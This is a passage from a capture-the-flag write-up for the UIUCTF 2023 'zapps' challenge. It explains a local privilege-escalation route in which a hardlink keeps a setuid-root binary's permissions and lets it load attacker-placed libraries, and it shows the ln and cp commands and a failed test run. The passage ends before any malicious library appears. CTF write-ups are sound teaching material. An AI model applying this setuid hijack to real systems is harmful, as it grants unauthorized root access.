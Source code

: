 ```
7f53d7445000-7f53d7446000 r--p 00002000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7446000-7f53d7447000 r--p 00002000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7447000-7f53d7448000 rw-p 00003000 00:0f 296642                     /usr/lib/zapps/build/lib.so
7f53d7448000-7f53d744a000 rw-p 00000000 00:00 0
7f53d744a000-7f53d744c000 r--p 00000000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d744c000-7f53d7476000 r-xp 00002000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7476000-7f53d7481000 r--p 0002c000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7481000-7f53d7482000 ---p 00000000 00:00 0
7f53d7482000-7f53d7484000 r--p 00037000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7484000-7f53d7486000 rw-p 00039000 00:0f 296641                     /usr/lib/zapps/build/ld-linux-x86-64.so.2
7f53d7486000-7f53d7487000 r--p 00000000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d7487000-7f53d7488000 r-xp 00001000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d7488000-7f53d7489000 r--p 00002000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d7489000-7f53d748a000 r--p 00002000 00:0f 296640                     /usr/lib/zapps/build/exe
7f53d748a000-7f53d748b000 rw-p 00003000 00:0f 296640                     /usr/lib/zapps/build/exe
7ffd50913000-7ffd50934000 rw-p 00000000 00:00 0                          [stack]
7ffd50996000-7ffd5099a000 r--p 00000000 00:00 0                          [vvar]
7ffd5099a000-7ffd5099c000 r-xp 00000000 00:00 0                          [vdso]
```

From the output, we can see that the `exe` loads `lib.so`, `libc.so.6` and `ld-linux-x86-64.so.2`.
That means if we can compromise one of those, we can execute code with `root` privileges since `exe` is a `setuid` binary with `root` as owner.
The problem is we cannot write to `/usr/lib/zapps/build/`. It's time to look at the report mentioned in the hint:

> ... hardlinks on Linux preserve permission, including set*id bits, and can be created by non-root users.

That means if we create a hardlink to `/usr/lib/zapps/build/exe` at somewhere else, it will still have the `setuid` bit set. We can create the hardlink using the following command:

```
uiuctf-2023:~$ ln /usr/lib/zapps/build/exe
```

Now copy `lib.so`, `libc.so.6` and `ld-linux-x86-64.so.2` to the same directory with the hard link to do a test run:

```
uiuctf-2023:~$ cp /usr/lib/zapps/build/*.so* .
uiuctf-2023:~$ ls
exe  init_chal  ld-linux-x86-64.so.2  lib.so  libc.so.6  zapps
uiuctf-2023:~$ ./exe
./exe: error while loading shared libraries: lib.so: cannot open shared object file: No such file or directory
```
